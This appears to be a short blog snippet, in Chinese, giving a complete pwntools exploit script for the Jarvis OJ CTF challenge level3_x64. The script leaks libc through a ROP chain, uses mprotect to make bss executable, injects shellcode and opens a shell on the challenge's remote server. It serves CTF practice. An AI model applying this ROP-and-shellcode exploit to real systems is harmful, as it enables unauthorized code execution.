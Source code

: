 博客的大佬写的整个脚本为

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import sys
context.binary = "./level3_x64"
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]
elf = context.binary

if sys.argv[1] == "l":
    io = process("./level3_x64", env = {"LD_PRELOAD": "./libc-2.19.so"})
    #  libc = elf.libc
    libc = ELF("./libc-2.19.so")
else:
    io = remote("pwn2.jarvisoj.com", 9884)
    libc = ELF("./libc-2.19.so")

if __name__ == "__main__":
    '''
    0x00000000004006b3 : pop rdi ; ret
    0x00000000004006b1 : pop rsi ; pop r15 ; ret
    '''
    prdi = 0x00000000004006b3
    pprsi = 0x00000000004006b1
    leak = flat(cyclic(0x80 + 8), prdi, 1, pprsi, elf.got['write'], 0, elf.plt['write'], elf.sym['_start'])
    io.sendafter("Input:\n", leak)
    libc.address = u64(io.recvuntil("\x7f")[-6: ] + '\0\0') - libc.sym['write']
    success("libc -> {:#x}".format(libc.address))
    pause()

    '''
    0x0000000000024885: pop rsi; ret;
    0x0000000000001b8e: pop rdx; ret; 
    '''
    #  gdb.attach(io, "b *0x400619\nc")
    prsi = libc.address + 0x24885
    prdx = libc.address + 0x1b8e
    mprotect = flat(cyclic(0x80 + 8), prdi, 0x00600000, prsi, 0x1000, prdx, 7, libc.sym['mprotect'], elf.sym['_start'])
    print mprotect
    io.sendafter("Input:\n", mprotect)
    pause()

    read = flat(cyclic(0x80 + 8), prdi, 0, prsi, elf.bss() , prdx, 0x100, elf.plt['read'], elf.bss() )
    io.sendafter("Input:\n", read)
    io.send(asm(shellcraft.sh()))

    io.interactive()

```
